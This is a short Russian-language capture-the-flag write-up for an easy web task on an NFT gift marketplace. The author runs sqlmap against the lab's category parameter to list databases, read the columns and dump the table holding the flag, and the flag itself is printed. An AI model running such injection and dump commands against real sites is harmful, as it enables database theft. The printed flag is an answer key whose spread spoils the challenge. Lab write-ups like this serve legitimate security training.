

# NFT Маркетплейс

**Сложность:** easy  
**Ссылка:** [DUCKERZ](https://duckerz.ru/categories/Web/19)  

## Описание

`Плюшевый Пепе создал свой маркетплейс подарков в телеграме. Но он неуверен, что сайт полностью безопасен...`

---

## Ход решения

Зашел на сайт - NFT маркетплейс с разными категориями, использовал `sqlmap` таким запросом: `sqlmap -u "http://task.duckerz.ru:21010/?category=Rare" --batch --dbs`

После этого сделал такой запрос: `sqlmap -u "http://task.duckerz.ru:21010/?category=Rare" --batch -D SQLite --columns`. Вот что получилось:

Далее таким запросом мне удалось найти флаг `DUCKERZ{Plush_P3P3_w0nt_l3t_g0_of_h1s_H34RT}` для этой задачи: `sqlmap -u "http://task.duckerz.ru:21010/?category=Rare" --batch -D SQLite --columns --dump`

---
